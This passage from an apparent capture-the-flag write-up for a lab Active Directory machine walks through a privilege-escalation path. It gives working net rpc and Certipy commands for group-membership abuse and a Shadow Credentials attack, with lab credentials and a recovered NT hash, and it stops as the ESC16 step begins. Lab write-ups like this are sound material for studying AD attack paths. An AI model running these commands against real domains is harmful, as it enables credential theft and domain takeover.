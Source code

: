 {% stepper %}
{% step %}
`p.agila` → `Service Account Managers` member

`Service Account Managers` → `GenericAll` over `Service Accounts`&#x20;

{% hint style="success" %}
`p.agila` can add itself to `Service Accounts`
{% endhint %}
{% endstep %}

{% step %}
`Service Accounts` → `GenericWrite` over `ca_svc`

{% hint style="success" %}
Member of this group, in this case `p.agila`, can modify `ca_svc`'s attributes, including the `msDS-KeyCredentialLink` attribute ([Shadow Credentials](../../tl-dr/active-directory/attacks/adcs.md#shadow-credentials) attack)
{% endhint %}
{% endstep %}

{% step %}
`ca_svc` → [`Cert Publishers`](../../tl-dr/active-directory/groups/cert-publishers.md) member

{% hint style="success" %}
`Cert Publishers` memberships can often lead to [ESC attacks](../../tl-dr/active-directory/attacks/adcs.md#esc-attacks)
{% endhint %}
{% endstep %}
{% endstepper %}

So, let's execute the identified PE vector step-by-step:

{% code overflow="wrap" %}
```bash
# Step 1: Add p.agila to the Service Accounts group
$ net rpc group addmem "Service Accounts" "p.agila" -U fluffy.htb/p.agila%prometheusx-303 -S dc01

# Step 2: Perform the Shadow Credentials attack
$ certipy shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -account 'ca_svc'
...
[*] Wrote credential cache to 'ca_svc.ccache' # TGT ticket
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8 # NT hash

# Step 3: Check for vulnerable certificate templates
$ certipy find -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -stdout -vuln
...
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
```
{% endcode %}

### ESC16

Certipy highlights the [ESC16 vulnerability](../../tl-dr/active-directory/attacks/adcs.md#identity-hijack-esc16) and we can PE to `Domain Administrator` following its [documentation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally) (we can skip _step 3_ as we already perform the Shadow Credentials attack):
